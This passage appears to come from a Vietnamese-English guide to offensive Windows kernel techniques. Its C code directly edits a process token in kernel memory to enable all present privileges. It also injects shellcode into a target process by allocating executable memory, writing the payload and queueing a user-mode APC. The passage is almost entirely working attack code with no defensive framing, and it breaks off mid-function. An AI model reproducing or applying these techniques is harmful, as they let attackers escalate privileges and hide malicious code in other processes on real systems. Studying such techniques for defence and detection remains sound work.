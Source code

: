 ### Technique 3: Modify Token Privileges

Enable tất cả privileges trong token:

```c
typedef struct _SEP_TOKEN_PRIVILEGES {
    ULONG64 Present;    // Bitmap of present privileges
    ULONG64 Enabled;    // Bitmap of enabled privileges
    ULONG64 EnabledByDefault; // Bitmap of default enabled
} SEP_TOKEN_PRIVILEGES;

// Get token từ EPROCESS
PVOID pToken = *(PVOID*)((PUCHAR)pProcess + TOKEN_OFFSET);
pToken = (PVOID)((ULONG_PTR)pToken & ~0xF);

// Offset của Privileges structure trong TOKEN
SEP_TOKEN_PRIVILEGES* pPrivileges = (SEP_TOKEN_PRIVILEGES*)((PUCHAR)pToken + PRIVILEGES_OFFSET);

// Enable all privileges
pPrivileges->Enabled = pPrivileges->Present;
```

---

## Thread Injection & Manipulation

### Technique 1: APC (Asynchronous Procedure Call) Injection

Inject code vào target thread qua user-mode APC:

```c
// Allocate memory trong target process
PVOID pRemoteCode = NULL;
SIZE_T codeSize = sizeof(shellcode);

ZwAllocateVirtualMemory(
    hTargetProcess,
    &pRemoteCode,
    0,
    &codeSize,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);

// Write shellcode
ZwWriteVirtualMemory(
    hTargetProcess,
    pRemoteCode,
    shellcode,
    sizeof(shellcode),
    NULL
);

// Queue user-mode APC
PETHREAD pThread = ...; // Get target thread
KeInitializeApc(
    &apc,
    pThread,
    OriginalApcEnvironment,
    KernelRoutine,
    RundownRoutine,
    NormalRoutine,      // Points to shellcode
    UserMode,
    NormalContext
```